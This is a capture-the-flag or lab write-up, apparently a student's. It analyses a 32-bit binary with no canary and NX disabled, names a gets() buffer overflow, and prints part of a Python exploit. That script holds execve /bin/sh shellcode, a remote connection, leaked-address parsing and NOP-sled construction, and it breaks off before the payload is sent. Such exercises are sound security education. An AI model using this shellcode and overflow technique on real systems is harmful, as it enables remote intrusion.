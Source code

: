 - Run `checksec` on the provided binary. What protections exist? Which attacks can be executed?
    ```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    ```
    - The only protection the executable has is PIE (Position Independent Executable). It has no stack canary nor `W^X` protection, therefore we can perform a buffer overflow attack.
- Which line has a vulnerability?
    - The vulnerability is present in line 12: `gets(buffer)`. This line calls the `gets` function of the `stdio` library, which reads characters from `stdin` into a buffer until it reads a newline or `EOF`.
- What can be done with this vulnerability?
    - Since `gets` has no way to specify a maximum number of characters to read and `buffer` has size 100 bytes, we can perform a buffer overflow and inject shellcode. The program also prints the address of the buffer with every execution, so we can parse this information and then use it to calculate the return address for our exploit.
- Create an exploit that allows you to obtain a shell in the server and get the flag present in the program's working directory.
    - We created and executed the exploit script below (which is based on a previous buffer overflow exploit). This script opens a connection to the server, parses the received message to obtain the buffer address, calculates the return address and creates a payload with shellcode that gives us a remote shell.
    - After obtaining a shell, we executed `cat flag.txt`.

### `exploit.py`
```python
#!/usr/bin/python3
import sys, socket
from pwn import remote, process

# 32bit shellcode
shellcode = (
  '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f'
  '\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31'
  '\xd2\x31\xc0\xb0\x0b\xcd\x80'
).encode('latin-1')

def netcat(hostname, port):
    r = remote(hostname, port)
    # r = process('./program')

    data = r.recv(1024).decode('utf-8')

    # Get second line
    l = data.split('\n')[1]

    # Get buffer address as an integer
    index = l.index('0x')
    addr = int(l[index:index+10], 16)

    # Return Address = Buffer Address + Buffer Size + Frame Pointer Size + Offset
    ret = addr + 100 + 4 + 50

    # Fill the payload with NOP's
    payload = bytearray(0x90 for i in range(400)) 

    # Place shellcode at the very end of the payload
    start = 400 - len(shellcode)
    payload[start:start + len(shellcode)] = shellcode
```